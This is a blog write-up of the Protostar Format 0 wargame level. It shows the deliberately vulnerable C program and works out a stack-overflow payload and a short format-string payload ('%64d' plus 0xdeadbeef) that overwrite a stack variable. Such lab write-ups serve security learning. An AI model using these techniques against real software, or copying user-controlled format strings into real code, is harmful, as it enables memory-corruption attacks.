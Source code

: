```yaml
---
layout: post
title: "Exploit Exercises - Protostar Format 0"
date: "2012-01-24T05:13:00-05:00"
comments: true
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


I'll be honest, I'm new to format string exploits.  I've been more experienced with stack overflows, and a little with heap overflows.  So hopefully this information is correct, as it's from my current understanding. 

<!-- more -->

[Protostar Format 0](http://exploit-exercises.com/protostar/format0) starts us off with the following vulnerable code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
 volatile int target;
 char buffer[64];

 target = 0;

 sprintf(buffer, string);

 if(target == 0xdeadbeef) {
  printf("you have hit the target correctly :)\n");
 }
}

int main(int argc, char **argv)
{
 vuln(argv[1]);
}
```

Looking at this code, somehow we have to get the variable, "target", which is never set anywhere other than to "0", to equal "0xdeadbeef".  Luckily, the "target" variable is on the stack, right before the "buffer" variable.  That means, if we can overflow "buffer", it'll leak out into "target". I decided for my understanding, that I would modify the c source file a little, so I could see what was going on better.  I added in 3 additional printf statements.  (This is mainly because I wasn't smart enough to get gdb to tell me where "buffer" and "target" were in memory.) 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
        volatile int target;
        char buffer[64];

        target = 0;

        sprintf(buffer, string);

        printf("Target: %08x\n", target);
        printf("Address of target: %08x\n", &target);
        printf("Address of buffer: %08x\n", &buffer);

        if(target == 0xdeadbeef) {
                printf("you have hit the target correctly :)\n");
        }
}

int main(int argc, char **argv)
{
        vuln(argv[1]);
}
```

Now, when I execute my custom compiled version, it gives me useful information:

```
user@protostar:~$ ./format0_1
Target: 00000000
Address of target: bffff7bc
Address of buffer: bffff77c
```
Just to verify that there was no spacing after "buffer" and before "target", I took those 2 values, and did some math: 

```
user@protostar:~$ perl -e 'print 0xbffff7bc-0xbffff77c . "\n"'
64
```

Initially, I thought this looked a lot like a stack overflow, especially since it did work as one: 

```
user@protostar:/opt/protostar/bin$ ./format0 `perl -e 'print "A"x64 . "\xef\xbe\xad\xde"'`
you have hit the target correctly :)
```

This is cheating though, since this is to demonstrate format string exploitation, and the [Format 0](http://exploit-exercises.com/protostar/format0) page says specifically:

{% blockquote %}
"This level should be done in less than 10 bytes of input."
{% endblockquote %}

So grumbling that I was going to have to do extra work, I started reading about string format exploitation.  A great document was titled ["Exploiting Format String Vulnerabilities"](http://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf), by scut / team teso</a>. 

It was in this document, that I found that you can actually tell the c compiler to read a certain number of bytes into a format.  I had seen this done half a dozen times before, but never knew that's what it was doing.  For example: 

```
printf("Target: %08x\n", target);
```

Normally for a hex formatting, you would simply use "%x" as the placeholder.  Well, apparently if you use "%08x", it will format it with 8 hex characters.  This is so that when "target" is set to 0, it actually prints "0x00000000" instead of "0x0".  Very nice! 

The same works for other types, such as decimal ("%d").  Since in the c program, it's doing: 

```
sprintf(buffer, string);
```

With this code, "string" is the first argument you pass to the program.  Since sprintf won't stop until it reads a null byte (as in a null terminated string), I just formatted it to read 64 bytes, and then concatenated "deadbeef" in little endian to it: 

```
user@protostar:/opt/protostar/bin$ ./format0 `perl -e 'print "%64d" . "\xef\xbe\xad\xde"'`
you have hit the target correctly :)
```

You could also format it with the "%64d" not in the perl statement, but I don't think it looks as readable. 

```
user@protostar:/opt/protostar/bin$ ./format0 %64x`perl -e 'print "\xef\xbe\xad\xde"'`
```

So there you have it.  That's definitely under 10 bytes of input.  I still have room for 2 more bytes if I need.
